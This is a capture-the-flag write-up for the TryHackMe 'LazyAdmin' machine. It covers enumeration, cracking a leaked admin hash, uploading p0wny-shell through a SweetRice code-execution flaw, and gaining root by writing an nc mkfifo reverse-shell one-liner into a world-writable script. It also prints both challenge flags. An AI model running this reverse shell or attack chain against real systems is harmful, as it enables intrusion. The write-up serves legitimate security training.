LazyAdmin
Platform: TryHackMe
Type: Challenge
Difficulty: Easy
Link: LazyAdmin
Description
"Easy linux machine to practice your skills"
Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
This revealed the following open ports:
- 22
- 80
I ran a full nmap scan to query the services for version information, as well as querying the target system for OS information with nmap -p$ports -A -T4 TARGET_IP_ADDRESS, which revealed the following:

I used my go-to ffuf command to enumerate the website:
ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c

Navigating to the home page in a browser revealed default Apache web page. There was nothing interesting in the source code (unsurprising) and there were no robots.txt or sitemap.xml files. Navigating to the /content directory discovered in the ffuf scan revealed an unconfigured SweetRice CMS installation, so I decided to perform another ffuf scan using the content directory as the base directory:

Using the ffuf scan as a guide, I navigated to each discovered directory. The /inc directory had a couple of interesting leads:

The lastest.txt drew my attention because it appears to contain a typo in the name. The contents gave a potential version number for the SweetRice installation:

Following the /my_sql_backup lead provided me with a link to an apparent backup of a SQL database:

After downloading the file, I ran it through strings and found what looked like an admin password hash:

The /as directory discovered in the ffuf follow up scan revealed an admin portal.
Searching searchsploit for vulnerabilities yielded the following results:
- SSH - a potential username enumeration exploit
- Apache - nothing of interest (there was a DoS exploit but this is unlikely to be the intended pathway in a CTF)
- SweetRice - numerous exploits for this version, all worth exploring during foothold exploration
Foothold
I used CrackStation as a quick tool for cracking the hash found in the SQL backup file, and got a match:

I used the password with the username found in the SQL backup file ("manager") in the /as endpoint, successfully logging in.
Revisiting the exploits found in the searchsploit search earlier on, there is one that mentioned arbitrary code execution. Looking through the documentation that accompanies the search result provides a guide for uploading PHP code to the web application, which will then be executed server-side. Following the hints in the documentation, I navigated to the "Ads" section of the admin dashboard, provided a name ("shell"), copied the contents of p0wny-shell and clicked "Done". Still following the documentation, I visited the /attachment directory, where my shell.php file could be seen and activated:

From there, finding and reading the contents of the user flag was trivial:

What is the user flag?
THM{63e5bce9271952aad1113b6f1ac28a07}
Privilege Escalation
The first thing I do when I have achieved an interactive shell as a standard user is enumerate sudo rights:

The output shows that I can execute Perl as sudo but only with one script, so I had a look at the contents of that script:

This script only does one thing - executes another script at /etc/copy.sh. With that in mind, I took a look at the contents of the target script:

The copy.sh file actually creates a reverse shell to an unknown endpoint - presumably this is the "lazy admin" machine referenced in the challenge title, and they're left this script behind as a way to connect to their machine. The next step was to see if I could edit the copy.sh file contents:

The file permissions are set so that the file is globally writable. This means that there's a misconfiguration logic that I can take advantage of:
- The
www-datauser can execute Perl assudowith thebackup.plscript - The
backup.plscript executes thecopy.shscript - The
copy.shfile initiates a reverse shell to another endpoint - The
copy.shfile contents are writable by my user, so I can update it to instead reaches back to my attacker machine - When the
backup.plscript is executed with the Perl binary assudo, the resulting shell session should retainrootrights
I overwrote the copy.sh contents with the following code in the p0wny-shell:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.130.206 4444 >/tmp/f' > /etc/copy.sh
On my attacker machine, I opened a netcat listener (nc -lvnp 4444) and back in the p0wny-shell ran the Perl binary as sudo with the backup.pl:
sudo perl /home/itguy/backup.pl
This resulted in a root shell as expected. From here, finding and reading the root flag was trivial:

What is the root flag?
THM{6637f41d0177b6f37cb20d775124699f}
Tools Used
ffuf searchsploit p0wny-shell
Date completed: 01/04/26
Date published: 01/04/26